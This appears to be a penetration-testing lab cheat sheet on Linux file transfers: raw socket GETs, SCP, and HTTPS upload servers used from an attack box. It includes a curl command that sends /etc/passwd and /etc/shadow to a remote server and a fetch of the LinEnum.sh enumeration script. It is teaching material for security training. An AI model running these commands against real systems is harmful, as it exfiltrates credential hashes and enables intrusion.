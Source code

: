 ## HTTP GET Request
- `echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3`

## Print the Response
- `cat <&3`

# SSH Downloads
## Enabling the SSH Server
- `sudo systemctl enable ssh`

## Starting the SSH Server
- `sudo systemctl start ssh`

## Checking for SSH Listening Port
- ` netstat -lnpt`

## Linux - Downloading Files Using SCP
- `scp plaintext@192.168.49.128:/root/myroot.txt . `

`Note: You can create a temporary user account for file transfers and avoid using your primary credentials or keys on a remote computer.`

# Upload Operations
## Web Upload
### Pwnbox - Start Web Server
- `sudo python3 -m pip install --user uploadserver`

### Pwnbox - Create a Self-Signed Certificate
- `openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'`
`The webserver should not host the certificate. We recommend creating a new directory to host the file for our webserver.`

### Pwnbox - Start Web Server
- `mkdir https && cd https`
- `sudo python3 -m uploadserver 443 --server-certificate /root/server.pem`

### Linux - Upload Multiple Files
- `curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure`

# Alternative Web File Transfer Method
## Linux - Creating a Web Server with Python3
- `python3 -m http.server`

